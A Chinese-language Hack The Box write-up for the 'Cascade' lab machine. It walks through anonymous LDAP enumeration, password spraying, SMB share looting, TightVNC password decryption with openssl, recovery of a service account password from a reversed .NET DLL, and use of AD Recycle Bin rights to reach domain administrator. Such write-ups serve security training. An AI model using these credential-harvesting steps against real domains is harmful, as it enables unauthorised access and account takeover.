



## 信息收集

nmap扫描

```
┌──(kali㉿kali)-[~/Desktop/HTB/Cascade]
└─$ sudo nmap -Pn -sC -sV -p- --min-rate 10000 10.10.10.182 -oA Cascade
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-24 06:54 PDT
Nmap scan report for 10.10.10.182
Host is up (0.34s latency).
Not shown: 65520 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-24 13:54:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-06-24T13:55:48
|_  start_date: 2022-06-23T18:49:15
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.78 seconds

```

经过测试，`ldap`服务可以匿名访问，先导出所有的用户名

```
└─$ windapsearch-linux-amd64 -d 10.10.10.182 -m users --full    
...
...

dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ryan Thompson
sn: Thompson
givenName: Ryan
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4
whenCreated: 20200109193126.0Z
whenChanged: 20200323112031.0Z
displayName: Ryan Thompson
uSNCreated: 24610
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 295010
name: Ryan Thompson
objectGUID: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=

...
...

```

从获得的用户名中进行`kerberoast`攻击，看有没有配置错误的用户，这种方式利用失败。那么继续仔细查看导出来的数据，从导出来的数据中，可以看到有一个用户拥有一个特别的字段`cascadeLegacyPwd: clk0bjVldmE=`。

使用`base64`解码获得一串字符`rY4n5eva`，这个有可能是密码，也可能是通用密码。先查看下账户锁定策略

```
ldapsearch -x -b "dc=cascade,dc=local" -H ldap://10.10.10.182 | grep lock
```

从返回的结果得知系统上没有配置账户锁定，所以我们可以使用这串字符来作为密码，对每个用户进行测试。



用户`r.thompson`成功登录，测试了下`winrm`登入失败




## 横向移动


接下来查看`smb`共享

```
└─$ smbmap -u r.thompson -p rY4n5eva -H 10.10.10.182
[+] IP: 10.10.10.182:445        Name: 10.10.10.182                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 

```

查看`Data`共享，在该共享下面找到了四个文件

```
\IT\Email Archives\Meeting_Notes_June_2018.html
\IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log
\IT\Logs\DCs\dcdiag.log
\IT\Temp\s.smith\VNC Install.reg
```

在文件`\IT\Email Archives\Meeting_Notes_June_2018.html`中得到下面的信息

```
Username is TempAdmin (password is the same as the normal admin account password). 
```

在文件`\IT\Temp\s.smith\VNC Install.reg`中得到如下信息：

```
HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC
"RfbPort"=dword:0000170c    #5800
"HttpPort"=dword:000016a8   #5900
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

[github](https://github.com/billchaison/VNCDecrypt) 上有解密方法，解密得到 `sT333ve2`

```
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

继续使用这个密码来尝试登陆其他用户，成功得到`s.smith`用户的密码




使用该账户密码成功登入`winrm`


查看当前用户权限

```
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Audit Share                         Alias            S-1-5-21-3332504370-1206983947-1165150453-1137 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group

```

值得关注的是这三个组，当前用户属于这些用户组。我们看看这些组里还有哪些用户，从之前导出的`ldap`数据中可以得到组内用户

```
# IT, Groups, UK, cascade.local
dn: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: group
cn: IT
member: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
member: CN=Steve Smith,OU=Users,OU=UK,DC=cascade,DC=local
member: CN=ArkSvc,OU=Services,OU=Users,OU=UK,DC=cascade,DC=local

# Audit Share, Groups, UK, cascade.local
dn: CN=Audit Share,OU=Groups,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: group
cn: Audit Share
description: \\Casc-DC1\Audit$
member: CN=Steve Smith,OU=Users,OU=UK,DC=cascade,DC=local
distinguishedName: CN=Audit Share,OU=Groups,OU=UK,DC=cascade,DC=local
```

该用户可以访问`Audit$`共享，我们从共享中可以得到一些有用的文件

从`Audit.db`数据库中，可以得到如下信息

```
sqlite> .tables
DeletedUserAudit  Ldap              Misc            
sqlite> select * from DeletedUserAudit;
6|test|Test
DEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d|CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
7|deleted|deleted guy
DEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef|CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local
9|TempAdmin|TempAdmin
DEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a|CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local
sqlite> select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
sqlite> select * from Misc;
sqlite> 

```

逆向`CascCrypto.dll`和`CascAudit.exe`获得解密算法

```csharp
Console.WriteLine(CascCrypto.Crypto.DecryptString("BQO5l5Kj9MdErXx6Q6AGOw==", "c4scadek3y654321"));
// 解密得到密码 w3lc0meFr31nd
```
## 提权


使用`arksvc`账户登入`winrm`，该用户属于`AD Recycle Bin`组。这个组的成员可以查看，恢复在域中所删除的数据，配合之前的`HTML`中显示的文档`TempAdmin`用户被用于执行任务，执行完毕之后就删除了，并且这个用户的密码和管理员的密码是一样的。

先查看被删除的用户

```
*Evil-WinRM* PS C:\Users\arksvc\Documents> get-adobject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE))" -IncludeDeletedObjects


Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

再列出`TempAdmin`用户的详细属性

```
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-AdObject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE)(DisplayName=TempAdmin))" -IncludeDeletedObjects -Properties *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM

```

从字段`cascadeLegacyPwd`中得到密码`baCT3r1aN00dles`，最后使用管理员登入。

